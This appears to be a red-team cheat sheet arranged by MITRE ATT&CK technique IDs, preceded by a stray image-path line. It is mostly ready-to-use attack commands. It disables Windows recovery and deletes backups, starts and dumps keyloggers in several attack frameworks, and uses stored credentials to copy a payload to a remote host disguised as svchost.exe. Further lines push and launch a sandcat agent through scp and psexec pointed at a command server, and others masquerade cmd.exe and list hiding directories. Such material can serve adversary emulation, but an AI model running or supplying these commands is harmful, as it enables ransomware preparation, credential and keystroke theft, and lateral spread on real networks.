 bcdedit.exe /set {default} recoveryenabled no
* wbadmin delete systemstatebackup -keepVersions:0
##T1056: Input Capture
* starting the keylogger:
keyscan_start
when you're ready to get the logs:
keyscan_dump
when you're done keylogging:
keyscan_stop
* starting the keylogger:
keylogger {x86|x64} {pid}
when you're ready to view logs:
view -> keylog
when you're done keylogging:
jobs
jobkill {job id number}
* powercmd.exe /c.exe Get-Keystrokes -LogPath C:\key.log
* powercmd.exe /c/collection/USBKeylogger
* powercmd.exe /c/collection/keylogger
* python/collection/linux/keylogger
* python/collection/linux/xkeylogger
* python/collection/osx/keylogger
##T1559: Inter-Process Communication
##T1534: Internal Spearphishing
##T1149: LC_MAIN Hijacking
##T1570: Lateral Tool Transfer
* $job = Start-Job -ScriptBlock {
  $username = "$USER$";
  $password = "$PASSWORD$";
  $secstr = New-Object -TypeName System.Security.SecureString;
  $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)};
  $cred = New-Object -Typename System.Management.Automation.PSCredential -Argumentlist $username, $secstr;
  $session = New-PSSession -ComputerName "#{remote.host.name}" -Credential $cred;
  $location = "#{location}";
  $exe = "#{exe_name}";
  Copy-Item $location -Destination "C:\Users\Public\svchost.exe" -ToSession $session;
  Start-Sleep -s 5;
  Remove-PSSession -Session $session;
};
Receive-Job -Job $job -Wait;
* scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o ConnectTimeout=3 sandcat.go-darwin #{remote.ssh.cmd}:~/sandcat.go
* scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o ConnectTimeout=3 sandcat.go-linux #{remote.ssh.cmd}:~/sandcat.go
* net /y use \\#{remote.host.name} & copy /y sandcat.go-windows
\\#{remote.host.name}\Users\Public & #{psexec.path} -accepteula \\#{remote.host.name}
cmd /c start C:\Users\Public\sandcat.go-windows -server $RANDOMURL$ -v
##T1036: Masquerading
* copy %WINDIR%\System32\cmd.exe /Y %ALLUSERSPROFILE%\cmd.exe
start %ALLUSERSPROFILE%\cmd.exe
* \Recycle.bin
* *.exe
* \Users\All Users\
* *.exe
* \Users\Default\
* *.exe
* \Users\Public\
* *.exe
* \Perflogs\
* *.exe
* \config\systemprofile\
* *.exe
* \Windows\Fonts\
